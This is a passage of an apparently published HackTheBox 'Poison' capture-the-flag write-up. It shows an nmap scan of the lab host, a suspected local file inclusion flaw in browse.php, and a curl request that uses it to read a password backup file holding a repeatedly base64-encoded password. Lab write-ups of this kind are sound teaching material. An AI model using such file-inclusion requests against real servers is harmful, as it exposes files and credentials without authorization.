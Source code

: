 ```yaml
---
layout: post
title: HackTheBox - Poison Writeup
tags: [hackthebox]
---
```


Poision is a pretty straight forward box overall but did include a couple of unique things which made it fun. 

### Initial Enumeration

Ye olde quick nmap scan.

```
root@kali:~# nmap -sV 10.10.10.84

Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-24 12:27 CDT
Nmap scan report for 10.10.10.84
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Let's check out port 80 in the browser.

![site](/img/poison-site.png)

We can check each of these files in the Scriptname field. When we check listfiles.php we get the following:

![files](/img/poison-files.png)

Notice the URL as well, which based off how it's calling these files is probably vulnerable to an LFI. 

Let's look at pwdbackup.txt first, since that seems interesting.

```
root@kali:~/htb/poison# curl http://10.10.10.84/browse.php?file=pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
